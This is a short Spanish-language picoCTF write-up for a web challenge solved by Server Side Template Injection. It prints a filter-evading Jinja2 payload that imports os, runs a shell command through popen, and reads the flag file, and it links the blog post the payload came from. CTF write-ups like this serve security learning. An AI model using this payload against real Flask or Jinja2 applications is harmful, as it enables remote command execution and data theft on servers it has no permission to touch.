 #### Description

I made a cool website where you can announce whatever you want! Try it out!

Additional details will be available after launching your challenge instance.


#### Hints 
- Server Side Template Injection


## Solución
```
insertamos la sig inyeccion sacada de la pagina: 


{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}


y ya nos da la bandera

picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_99fe4411}
```

Pagina de las inyecciones: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/